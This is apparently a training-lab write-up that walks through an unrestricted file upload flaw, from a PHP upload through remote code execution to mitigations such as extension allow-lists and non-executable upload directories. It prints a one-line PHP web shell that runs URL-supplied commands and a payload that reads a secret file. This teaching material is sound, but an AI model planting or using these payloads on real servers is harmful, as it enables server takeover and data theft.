





# File upload - RCE Unrestricted file type

## 🔹 Overview

This lab demonstrates an **Unrestricted File Upload vulnerability**, where user-controlled files are uploaded and executed by the server, leading to Remote Code Execution (RCE).

Spec:



---

Pre-reading provided code:

```php
<?php echo system($_GET['command']); ?>
```

```php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

## 🔹 Vulnerability

The application allows users to upload profile images but does not restrict file types or validate uploaded content.

This results in user-controlled files being stored in a location where they can be executed by the server.

---

## 🔹 Exploitation

### Step 1 - Identify upload functionality

A profile image upload feature was available.



---

### Step 2 - Initial experimentation (command execution)

A PHP file was uploaded to test whether server-side execution was possible:

```php
<?php echo system($_GET['command']); ?>
```

Explanation:

```php
$_GET['command']
```

- Retrieves user input from the URL parameter `command`

```php
system()
```

- Executes the provided input as an operating system command on the server

```php
echo
```

- Outputs the result of the command execution to the browser

Example:

```http
[base_url]/my-account/files/avatars/exploit.php?command=id
```

- Although the syntax resembles HTML or XML tags, `<?php ... ?>` is a PHP code block that is executed by the server.

PHP is a server-side programming language used to generate dynamic web content. When a `.php` file is accessed, the server executes the code and returns the output to the user. In this case, the uploaded file is executed rather than treated as a static image, resulting in remote code execution.

Result:

- The server executes the id command
- The output is returned in the response



This confirms that the server executes uploaded files as code, rather than treating them as static content.

---

### Step 3 - Upload targeted payload (lab solution)

The file path is known from the lab specification:

```http
/home/carlos/secret
```

A more targeted payload was then used:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Explanation:

```php
file_get_contents()
```

- reads the contents of a file
- The file path is provided directly by the lab
- echo outputs the file contents to the browser

Result:

- Sensitive data was retrieved directly
- Lab objective completed

This payload directly targets the sensitive file provided in the lab, making it a more efficient approach than executing arbitrary commands.

---

### Step 4 - Access uploaded file

The uploaded file was accessible at:

```http
/files/avatars/exploit.php
```



Which returned `Carlos's Secret`

- Alternatively, accessing the uploaded file directly via the browser (e.g. “Open image in new tab”) executes the PHP code

---

### Step 5 - Confirm execution

Submitting the retrieved secret successfully completed the lab.



---

## 🔹 Impact

This vulnerability allows:

- Execution of arbitrary system commands
- Full compromise of the server
- Access to sensitive files and system data

Unrestricted file uploads can lead directly to complete system compromise.

---

## 🔹 Root Cause

- No validation of uploaded file types
- No restriction on executable files (e.g. .php)
- Uploaded files stored in an executable directory

This represents a failure to enforce the separation between user-controlled data and executable code, allowing attackers to run arbitrary instructions on the server.

---

## 🔹 Mitigation

Uploaded files must never be executable or trusted.

### Restrict file types

Validate filenames using an allow-list (extension-based validation):

```python
if not re.fullmatch(r'^[a-zA-Z0-9_-]+\.(jpg|jpeg|png|gif)$', filename, re.IGNORECASE):
    return invalid_file()
```

This restricts allowed filenames, but additional validation of file content is required to prevent malicious uploads.

### Store files outside web root

Prevent direct access and execution.

### Disable execution

Ensure uploaded files cannot be executed as code by disabling execution in upload directories.

---

## 🔹 Key Learning

Unrestricted file uploads can directly lead to remote code execution by allowing user-controlled input to be treated as executable code.

This lab builds on earlier concepts in the module:

- **Path traversal** -> accessing sensitive files on the server
- **SSRF** -> retrieving internal data via server-side requests
- **File upload** -> executing user-controlled code on the server

These vulnerabilities demonstrate how small input validation failures can escalate into full system compromise by allowing user-controlled data to become executable code.
